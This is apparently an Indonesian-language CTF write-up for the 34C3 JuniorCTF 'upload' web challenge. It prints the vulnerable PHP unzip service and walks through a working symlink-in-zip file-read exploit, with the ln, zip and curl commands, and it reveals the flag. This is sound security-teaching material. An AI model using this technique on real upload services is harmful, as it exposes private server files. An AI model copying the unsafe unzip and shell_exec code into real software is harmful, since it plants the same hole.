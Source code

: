 # 34C3 CTF 2017: JuniorCTF - upload

**Category:** Web
**Description:**

> This is an useful [service](http://35.197.205.153/) to unzip some files.
>
> We added a [flag](http://35.197.205.153/flag.php) for your convenience.

## Write-up

Pada challenge ini kita diberikan sebuah web dengan fitur upload dan kita diberikan akses ke [source code web](http://35.197.205.153/?source=1)
```php
 <?php
$UPLOADS = '/var/www/uploads/';
if(!empty($_FILES['uploaded_file'])) {
    $paths = scandir($UPLOADS);
    $now = time();
    foreach($paths as $path) {
        if ($path == '.') {
            continue;
        }
        $mtime = filemtime($UPLOADS . $path);
        if ($now - $mtime > 120) {
            shell_exec('rm -rf ' . $UPLOADS . $path);
        }
    }
    $path = $UPLOADS . uniqid('upl') . '/';
    if(!mkdir($path, 0777, true)) {
        die('mkdir failed');
    }
    $zip = $path . uniqid('zip');
    if(move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $zip)) {
        shell_exec('unzip -j -n ' . $zip . ' -d ' . $path);
        unlink($zip);
        header('Location: uploads/'. basename($path) . '/');
    } else {
        echo 'There was an error uploading the file, please try again!';
    }
} else {
?>
<!DOCTYPE html>
<html>
<head>
    <title>Upload your files</title>
</head>
<body>
<?php
    if (@$_GET['source']) {
        highlight_file(__FILE__);
    } else {
?>
    <form enctype="multipart/form-data" method="POST">
        <p>Upload your file</p>
        <input type="file" name="uploaded_file"></input><br />
        <input type="submit"></input>
    </form>
    <a href="?source=1">Show source</a>
</body>
</html>
<?php
    }
}
?> 
```

Ketika kita mengupload sebuah file zip maka akan unzip pada server dan file hasil extract akan dipindahkan ke 
`http://url/uploads/upl+uniqid`

![Screenshot](test.png)

File flag berada pada `http://url/flag.php`

Pada soal ini kita tidak memanfaatkan kelemahan dari php, namun kita akan memanfaatkan kehebatan dari `Symbolic Link` pada Linux

perintah dasarnya seperti ini
```bash
$ ln -s /path/to/file /path/to/symlink
```

Arahkan symlink ke flag.php yang letaknya berada pada `http://url/flag.php` sedangkan file kita berada pada `http://url/uploads/upl+uniqid`, sehingga kita harus naik 2 directory

```bash
$ ln -s ../../flag.php sebuah_file
```

lalu compress `sebuah_file` dengan nama `final.zip`

```bash
$ zip -y final.zip sebuah_file
```

Upload `final.zip` ke server

![Screenshot2](test2.png)

klik pada `sebuah_file` dan lihat isinya atau copy link lalu gunakan curl

```bash
$ curl http://35.197.205.153/uploads/upl5a4907d85d7e1/sebuah_file
<?php
$flag = "34C3_unpack_th3_M1ss1ng_l!nk"
?>
```

## References

* [stackoverflow](https://stackoverflow.com/questions/1951742/how-to-symlink-a-file-in-linux)